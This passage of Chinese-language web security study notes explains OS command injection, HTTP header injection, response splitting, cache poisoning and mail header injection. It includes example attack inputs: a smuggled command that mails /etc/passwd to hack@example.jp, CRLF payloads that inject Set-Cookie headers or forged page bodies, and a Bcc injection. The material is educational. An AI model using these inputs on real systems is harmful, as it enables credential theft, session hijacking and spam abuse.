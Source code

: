 攻击者的输入值中含有分号（;）。这个符号在 OS 命令中，会被解析为分隔多个执行命令的标记。 

可见，sendmail 命令执行被分隔后，接下去就会执行 cat/etc/passwd | mail hack@example.jp 这样的命令了。结果，含有Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。 

- ###### HTTP首部注入

攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击。

向首部主体内添加内容的攻击称为 HTTP 响应截断攻击（HTTP Response Splitting Attack）。 

如下所示，Web 应用有时会把从外部接收到的数值，赋给响应首部字段 Location 和 Set-Cookie。 

> Location: http://www.example.com/a.cgi?q=12345
>
> Set-Cookie: UID=12345
>
> ＊12345就是插入值

- HTTP 首部注入攻击有可能会造成以下一些影响。
  - 设置任何 **Cookie** 信息
  - 重定向至任意 **URL**
  - 显示任意的主体（**HTTP** 响应截断攻击） 

攻击者以下面的内容替代之前的类别 ID 后发送请求。 

> 101%0D%0ASet-Cookie:+SID=123456789

其中，%0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强制将攻击者网站（http://hackr.jp/）的会话 ID 设置成 SID=123456789 的 Set-Cookie 首部字段。发送该请求之后，假设结果返回以下响应。

> Location: http://example.com/?cat=101（%0D%0A ：换行符）Set-Cookie: SID=123456789 

此刻，首部字段 Set-Cookie 已生效，因此攻击者可指定修改任意的 Cookie 信息。通过和会话固定攻击（攻击者可使用指定的会话 ID）攻击组合，攻击者可伪装成用户。

- HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体，达到攻击目的。这样的攻击叫做 HTTP 响应截断攻击。

> %0D%0A%0D%0A<HTML><HEAD><TITLE>之后，想要显示的网页内容 &lt;!--

在可能进行 HTTP 首部注入的环节，通过发送上面的字符串，返回结果得到以下这种响应。 

> Set-Cookie: UID=（%0D%0A ：换行符）
>
> （%0D%0A ：换行符）
>
> <HTML><HEAD><TITLE>之后，想要显示的网页内容 &lt;!--（原来页面对应的首部字段和主体部分全视为注释） 

利用这个攻击，已触发陷阱的用户浏览器会显示伪造的 Web 页面，再让用户输入自己的个人信息等，可达到和跨站脚本攻击相同的效果。 

- 另外，滥用 HTTP/1.1 中汇集多响应返回功能，会导致缓存服务器对任意内容进行缓存操作。这种攻击称为缓存污染。使用该缓 存服务器的用户，在浏览遭受攻击的网站时，会不断地浏览被替换掉的 Web 网页。 

- ###### 邮件首部注入

邮件首部注入（Mail Header Injection）是指 Web 应用中的邮件发送功能，攻击者通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击。利用存在安全漏洞的 Web 网站，可对任意邮件地址发送广告邮件或病毒邮件。 

攻击者将以下数据作为邮件地址发起请求。 

> bob@hackr.jp%0D%0ABcc: user@example.com
